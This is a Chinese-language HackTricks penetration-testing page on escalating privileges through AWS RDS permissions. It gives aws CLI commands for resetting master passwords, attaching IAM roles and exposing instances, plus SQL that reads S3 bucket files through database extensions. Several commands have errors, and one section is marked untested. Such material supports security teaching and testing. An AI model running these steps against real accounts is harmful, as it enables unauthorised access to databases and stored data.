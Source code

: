 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - 关系数据库服务

有关 RDS 的更多信息，请查看：

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

拥有该权限的攻击者可以 **修改主用户的密码**，以及数据库中的登录：
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> 您需要能够**联系数据库**（它们通常仅在内部网络中可访问）。

**潜在影响：** 在数据库中查找敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，具有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql (Aurora)

> [!TIP]
> 如果运行**`SELECT datname FROM pg_database;`**时发现名为**`rdsadmin`**的数据库，您就知道您在一个**AWS postgresql数据库**中。

首先，您可以检查此数据库是否已用于访问任何其他AWS服务。您可以通过查看已安装的扩展来检查这一点：
```sql
SELECT * FROM pg_extension;
```
如果你发现类似 **`aws_s3`** 的东西，你可以假设这个数据库对 S3 **有某种访问权限**（还有其他扩展名，如 **`aws_ml`** 和 **`aws_lambda`**）。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在 **`AssociatedRoles`** 字段中查看 **集群是否附加了任何 IAM 角色**。如果有，你可以假设该数据库是 **为访问其他 AWS 服务而准备的**。根据 **角色的名称**（或者如果你能获取 **角色的权限**），你可以 **猜测** 数据库具有的额外访问权限。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
如果你拥有 **原始 AWS 凭证**，你也可以使用它们访问 S3 数据，方法是：
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **不需要更改任何参数组变量** 就可以访问 S3。

#### Mysql (Aurora)

> [!TIP]
> 在 mysql 中，如果你运行查询 **`SELECT User, Host FROM mysql.user;`** 并且有一个用户叫 **`rdsadmin`**，你可以假设你在一个 **AWS RDS mysql 数据库** 中。

在 mysql 中运行 **`show variables;`**，如果变量如 **`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** 有值，你可以假设数据库已准备好访问 S3 数据。

此外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以检查集群是否有任何 **关联角色**，这通常意味着可以访问 AWS 服务。

现在，要 **读取存储桶中的文件**，你需要知道完整路径。你可以用以下命令读取它：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBCluster` 和 `iam:PassRole` 的攻击者可以 **将指定角色添加到现有的 RDS 实例**。这可能允许攻击者 **访问敏感数据** 或修改实例中的数据。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。\
请注意，一些数据库需要额外的配置，例如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者可以在已经存在并附加了**IAM角色**的集群中创建一个**新实例**。他将无法更改主用户密码，但他可能能够将新数据库实例暴露于互联网：
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: 测试

拥有权限 `rds:CreateDBInstance` 和 `iam:PassRole` 的攻击者可以 **创建一个附加指定角色的新 RDS 实例**。攻击者随后可能 **访问敏感数据** 或修改实例中的数据。

> [!WARNING]
> 附加角色/实例配置文件的一些要求（来自 [**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)）：

> - 配置文件必须在您的账户中存在。
> - 配置文件必须有一个 IAM 角色，Amazon EC2 有权限假设。
> - 实例配置文件名称和关联的 IAM 角色名称必须以前缀 `AWSRDSCustom` 开头。
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有权限 `rds:AddRoleToDBInstance` 和 `iam:PassRole` 的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

> [!WARNING]
> DB实例必须位于集群之外才能实现此操作。
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**潜在影响**：访问敏感数据或对RDS实例中的数据进行未经授权的修改。

{{#include ../../../banners/hacktricks-training.md}}
